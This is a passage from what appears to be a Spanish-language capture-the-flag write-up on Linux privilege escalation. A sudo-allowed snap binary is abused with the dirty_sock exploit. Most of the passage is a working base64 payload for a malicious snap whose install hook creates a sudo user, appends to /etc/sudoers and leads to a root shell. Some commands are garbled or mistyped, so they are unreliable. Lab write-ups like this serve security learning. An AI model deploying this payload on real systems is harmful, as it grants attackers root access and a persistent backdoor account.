 ## Privilege Escalation {-}

### Enumeracion del usuario en la maquina victima {-}

```bash
whoami
id
sudo -l
```

Vemos que podemos lanzar snap como root.

Buscamos en google snap hook exploit .snap file y encontramos el link siguiente 
[Linux Privilege Escalation via snapd (dirty_sock exploit)](https://initblog.com/2019/dirty-sock/). Econtramos
un hook que genera un nuevo local user. Lo miramos y lo reutilizamos usando python.

```bash
echo "aHNxcwcAAAAQIVZcAAACAAAAAAAEABEA0AIBAAQAAADgAAAAAAAAAI4DAAAAAAAAhgMAAAAAAAD/
/////////xICAAAAAAAAsAIAAAAAAAA+AwAAAAAAAHgDAAAAAAAAIyEvYmluL2Jhc2gKCnVzZXJh
ZGQgZGlydHlfc29jayAtbSAtcCAnJDYkc1daY1cxdDI1cGZVZEJ1WCRqV2pFWlFGMnpGU2Z5R3k5
TGJ2RzN2Rnp6SFJqWGZCWUswU09HZk1EMXNMeWFTOTdBd25KVXM3Z0RDWS5mZzE5TnMzSndSZERo
T2NFbURwQlZsRjltLicgLXMgL2Jpbi9iYXNoCnVzZXJtb2QgLWFHIHN1ZG8gZGlydHlfc29jawpl
Y2hvICJkaXJ0eV9zb2NrICAgIEFMTD0oQUxMOkFMTCkgQUxMIiA+PiAvZXRjL3N1ZG9lcnMKbmFt
ZTogZGlydHktc29jawp2ZXJzaW9uOiAnMC4xJwpzdW1tYXJ5OiBFbXB0eSBzbmFwLCB1c2VkIGZv
ciBleHBsb2l0CmRlc2NyaXB0aW9uOiAnU2VlIGh0dHBzOi8vZ2l0aHViLmNvbS9pbml0c3RyaW5n
L2RpcnR5X3NvY2sKCiAgJwphcmNoaXRlY3R1cmVzOgotIGFtZDY0CmNvbmZpbmVtZW50OiBkZXZt
b2RlCmdyYWRlOiBkZXZlbAqcAP03elhaAAABaSLeNgPAZIACIQECAAAAADopyIngAP8AXF0ABIAe
rFoU8J/e5+qumvhFkbY5Pr4ba1mk4+lgZFHaUvoa1O5k6KmvF3FqfKH62aluxOVeNQ7Z00lddaUj
rkpxz0ET/XVLOZmGVXmojv/IHq2fZcc/VQCcVtsco6gAw76gWAABeIACAAAAaCPLPz4wDYsCAAAA
AAFZWowA/Td6WFoAAAFpIt42A8BTnQEhAQIAAAAAvhLn0OAAnABLXQAAan87Em73BrVRGmIBM8q2
XR9JLRjNEyz6lNkCjEjKrZZFBdDja9cJJGw1F0vtkyjZecTuAfMJX82806GjaLtEv4x1DNYWJ5N5
RQAAAEDvGfMAAWedAQAAAPtvjkc+MA2LAgAAAAABWVo4gIAAAAAAAAAAPAAAAAAAAAAAAAAAAAAA
AFwAAAAAAAAAwAAAAAAAAACgAAAAAAAAAOAAAAAAAAAAPgMAAAAAAAAEgAAAAACAAw" | xargs | tr -d ' '
```

copiamos el output y recreamos el paquete snap malicioso

```bash
cd /tmp
pytho -c 'print "aHNxcwcAAAAQIVZcAAACAAAAAAAEABEA0AIBAAQAAADgAAAAAAAAAI4DAAAAAAAAhgMAAAAAAAD
//////////xICAAAAAAAAsAIAAAAAAAA+AwAAAAAAAHgDAAAAAAAAIyEvYmluL2Jhc2gKCnVzZXJhZGQgZGlydHlfc29
jayAtbSAtcCAnJDYkc1daY1cxdDI1cGZVZEJ1WCRqV2pFWlFGMnpGU2Z5R3k5TGJ2RzN2Rnp6SFJqWGZCWUswU09HZk1
EMXNMeWFTOTdBd25KVXM3Z0RDWS5mZzE5TnMzSndSZERoT2NFbURwQlZsRjltLicgLXMgL2Jpbi9iYXNoCnVzZXJtb2Q
gLWFHIHN1ZG8gZGlydHlfc29jawplY2hvICJkaXJ0eV9zb2NrICAgIEFMTD0oQUxMOkFMTCkgQUxMIiA+PiAvZXRjL3N
1ZG9lcnMKbmFtZTogZGlydHktc29jawp2ZXJzaW9uOiAnMC4xJwpzdW1tYXJ5OiBFbXB0eSBzbmFwLCB1c2VkIGZvciB
leHBsb2l0CmRlc2NyaXB0aW9uOiAnU2VlIGh0dHBzOi8vZ2l0aHViLmNvbS9pbml0c3RyaW5nL2RpcnR5X3NvY2sKCiA
gJwphcmNoaXRlY3R1cmVzOgotIGFtZDY0CmNvbmZpbmVtZW50OiBkZXZtb2RlCmdyYWRlOiBkZXZlbAqcAP03elhaAAA
BaSLeNgPAZIACIQECAAAAADopyIngAP8AXF0ABIAerFoU8J/e5+qumvhFkbY5Pr4ba1mk4+lgZFHaUvoa1O5k6KmvF3F
qfKH62aluxOVeNQ7Z00lddaUjrkpxz0ET/XVLOZmGVXmojv/IHq2fZcc/VQCcVtsco6gAw76gWAABeIACAAAAaCPLPz4
wDYsCAAAAAAFZWowA/Td6WFoAAAFpIt42A8BTnQEhAQIAAAAAvhLn0OAAnABLXQAAan87Em73BrVRGmIBM8q2XR9JLRj
NEyz6lNkCjEjKrZZFBdDja9cJJGw1F0vtkyjZecTuAfMJX82806GjaLtEv4x1DNYWJ5N5RQAAAEDvGfMAAWedAQAAAPt
vjkc+MA2LAgAAAAABWVo4gIAAAAAAAAAAPAAAAAAAAAAAAAAAAAAAAFwAAAAAAAAAwAAAAAAAAACgAAAAAAAAAOAAAAA
AAAAAPgMAAAAAAAAEgAAAAACAA" + "A"*4256 + "=="' | base64 -d > setenso.snap

sudo /usr/bin/snap install setenso.snap --devmode
cat /etc/passwd
sudo dirty_sock > password dirty_sock
sudo su > password dirty_sock

whoami
#Output
root
```
